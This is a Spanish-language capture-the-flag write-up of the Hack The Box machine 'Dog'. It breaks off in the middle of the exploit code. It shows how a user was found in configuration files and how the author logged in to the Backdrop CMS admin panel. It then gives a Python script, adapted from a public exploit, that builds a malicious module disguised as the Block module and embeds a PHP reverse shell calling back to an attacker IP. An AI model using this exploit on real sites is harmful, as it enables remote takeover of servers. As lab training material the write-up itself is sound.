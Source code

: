 ```bash
find . -type f -print0 | xargs -0 grep -i "@DOG.htb"
```
 
El comando en este caso lo hemos ejecutado en la ruta donde se encuentran los archivos descargados.

Esto revela un usuario dentro de la configuración.

![alt text](/assets/img/posts/dog_htb_s7/image.pngimage-6.png)
 
## Login en la web

Con este nuevo usuario y la contraseña encontrada podemos entrar en la web.

![alt text](/assets/img/posts/dog_htb_s7/image.pngimage-7.png)

En este punto y tras un rato explorando todas las opciones que ofrece Backdrop CMS desde el panel busqué posibles vulnerabilidades realacionadas con el CMS.

Encontramos una vulnerabilidad que nos permite ejecutar RCE mediante modulos maliciosos en el panel de administración. 

[Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/52021)

Este PoC crea un modulo malicioso en el que mediante PHP crea un shell cmd para ejecutar comandos desde un panel web pero yo lo he modificado para que se ejecute una shell reversa directamente en el sistema.

```python
import os
import time
import tarfile

def create_files():
    # Contenido del archivo .info
    info_content = """
    type = module
    name = Block
    description = Controls the visual building blocks a page is constructed
    with. Blocks are boxes of content rendered into an area, or region, of a
    web page.
    package = Layouts
    tags[] = Blocks
    tags[] = Site Architecture
    version = BACKDROP_VERSION
    backdrop = 1.x

    configure = admin/structure/block

    ; Added by Backdrop CMS packaging script on 2024-03-07
    project = backdrop
    version = 1.27.1
    timestamp = 1709862662
    """
    shell_info_path = "shell/shell.info"
    os.makedirs(os.path.dirname(shell_info_path), exist_ok=True)  # Crea la carpeta si no existe
    with open(shell_info_path, "w") as file:
        file.write(info_content)

    # Contenido del archivo .php (shell reversa)
    shell_content = """
    <?php
    $ip = '10.10.10.10';  // Cambia por tu IP
    $port = 4444;          // Cambia por tu puerto

    // Abre un socket al atacante
```